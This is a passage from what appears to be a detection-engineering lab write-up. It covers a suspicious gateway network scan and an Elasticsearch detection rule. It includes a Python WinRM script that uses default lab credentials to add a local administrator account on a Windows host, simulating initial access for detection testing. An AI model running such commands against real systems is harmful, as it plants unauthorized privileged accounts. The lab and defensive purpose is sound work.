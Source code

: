 Enter the Python REPL or create a Python script:

```python
import winrm
s = winrm.Session('172.16.20.230', auth=('vagrant', 'vagrant'))
username = "service-admin"
password = "ServicePass1!"
cmd = 'cmd.exe'
args = ['/c', f'net user {username} "{password}" /add && net localgroup Administrators {username} /add']
r = s.run_cmd(cmd, args)
print(r.std_out.decode(errors='ignore'))
print(r.std_err.decode(errors='ignore'))
```

<div align="center">
    <img alt="Guestshell winrm" src="/resources/attack-detect-scenarios/reconnaissance/networkidiscovery-and-port-scanning/Suspicious-Gateway-Network-Scan/images/guestshell-winrm.png" width="100%">
</div>

The rule was successfully created and tested in the lab. Any port access from the gateway will trigger the rule.

<div align="center">
    <img alt="Elasticsearch rule" src="/resources/attack-detect-scenarios/reconnaissance/networkidiscovery-and-port-scanning/Suspicious-Gateway-Network-Scan/images/rule.png" width="100%">
</div>

From the router perspective, we simulate initial access to the host. This workflow will be developed further in the following sections to show what happens on the Windows VM when a new user is created.
